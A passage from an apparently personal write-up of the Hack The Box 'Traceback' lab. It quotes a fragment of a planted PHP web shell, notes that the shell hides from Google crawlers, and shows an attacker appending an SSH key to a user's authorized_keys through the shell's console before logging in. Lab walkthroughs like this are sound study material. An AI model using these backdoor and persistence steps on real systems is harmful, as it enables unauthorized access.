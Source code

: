 ```php
@ini_set('display_errors',0);
@ini_set('log_errors',0);
@ini_set('max_execution_time',0);
@set_time_limit(0);
@set_magic_quotes_runtime(0);
if( get_magic_quotes_gpc() ) {
    function stripslashes_array($array) {
        return is_array($array) ? array_map('stripslashes_array', $array) : stripslashes($array);
    }
    $_POST = stripslashes_array($_POST);
}

function printLogin() {
 if ($_POST['pass'] != $auth_pass && $_POST['uname'] != $UserName) {
    $status = 'Wrong Password or UserName :(';
}
```

After doing some troubleshooting and looking into the code it seemed as if the web shell itself was looking for a HTTP\_USER\_AGENT with 'Google' in it. I wasn't sure why this might interfere since it seems to give a 404 error if the user agent IS Google. This may be just to keep the Google bots from crawling the page and discovering the backdoor.  Using the unPHP decoder site [https://www.unphp.net/decode/9e310714b0ca99497d4a486d220d34f7/](https://www.unphp.net/decode/9e310714b0ca99497d4a486d220d34f7/) I read through the rest of the code of the backdoor to see if I could find anything that would cause it to not work in Firefox, but I didn't see anything obvious.

## Road to User

![Enumeration using the web shell](/assets/img/screenshot_2020-06-22_17-41-38.png)

I noticed that the web shell told me that the username we had control of was `webadmin`, so I decided to try to add my public SSH key to the `.ssh/authorized_keys` file of that user to see if it would let me log in that way. I entered the command `echo "ssh-rsa AAAA<my_public_key> zweilos@kali" >> /home/webadmin/.ssh/authorized_keys` into the `Console` field of the web shell.  _\(Notice the append operator `>>`?  Please be nice to your fellow players and don't overwrite the whole file with `>`!\)_


> According to [https://www.ssh.com/ssh/keygen/](https://www.ssh.com/ssh/keygen/) you can also do this remotely from a terminal using**`ssh-copy-id -i ~/.ssh/tatu-key-ecdsa user@host`** but you need to be able to authenticate to the machine already to do this.  


### Enumeration as `webadmin`

After uploading my public key it was easy to just SSH into the machine using my own private key.

```text
zweilos@kali:~/htb/traceback$ ssh webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

Last login: Thu Feb 27 06:29:02 2020 from 10.10.14.3
webadmin@traceback:~$ whoami && hostname
webadmin
traceback
```
